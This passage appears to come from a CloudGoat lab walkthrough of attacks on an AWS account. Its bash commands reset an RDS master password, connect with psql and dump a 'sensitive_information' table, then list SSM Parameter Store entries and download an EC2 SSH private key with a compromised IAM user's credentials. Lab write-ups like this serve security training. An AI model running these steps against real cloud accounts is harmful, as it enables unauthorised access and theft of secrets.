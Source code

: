 ```bash
    --db-subnet-group-name <SUBNET_GROUP_NAME> \
    --publicly-accessible \
    --vpc-security-group-ids <SECURITY_GROUP_NAME> \
    --profile calrissian

# Now have an RDS instance that we control, reset the Master User Password for the database.
aws rds modify-db-instance \
    --db-instance-identifier secrets-instance \
    --master-user-password cloudgoat \
    --profile calrissian

# retrieve the information about the new RDS instance, connect to the database and extract secrets.
aws rds describe-db-instances \
    --query "DBInstances[*].[DBInstanceIdentifier,Engine,DBName,Endpoint,MasterUsername]" \
    --profile calrissian
# got the rds address


# to connect to the RDS instance
# can use any PostgreSQL client to connect to the database and extract the secrets,
# In this case, we are using `psql`, a command line PostgreSQL client -
sudo apt install postgresql-client
psql -h <INSTANCE-PUBLIC-DNS-NAME> -p 5432 -d securedb -U cgadmin

# connected to the database, use PostgreSQL commands to extract the secrets.
# securedb ->
# securedb -> \dt
# securedb -> select * from sensitive_information;
```

---

#### Exploitation Route - 2

![scenario6-2](https://i.imgur.com/XOa1z69.png)

> The above enumeration step was tricky and time consuming for me because the [enumerate-iam] script didn't check for `SSM:DescribeParameters` permission.
> AWS Systems Manager Parameter Store
> provides secure, hierarchical storage for configuration data management and secrets management.
> can store data such as passwords, database strings, EC2 instance IDs, EC2 SSH Key Pairs and license codes as parameter values.



```bash

# use the IAM User "Solo" credentials and exploit the AWS account in a different way.

# From the [enumerate-iam] script
# the user has `SSM:DescribeParameters` permission.
# allows to list the parameters stored in AWS Systems Manager Parameter Store.
# By design, most of the parameters stored tend to be of sensitive nature.

#  list all the parameters in the Parameter Store of the AWS account.
aws ssm describe-parameters --profile $SRC_PROFILE

# the Parameter Store has an EC2 SSH Key Pair.
# download the SSH private key
aws ssm get-parameter \
    --name cg-ec2-private-key-cgidetofos97ig \
    --query "Parameter.Value" \
    --output text \
    --profile $SRC_PROFILE | tee private-key

```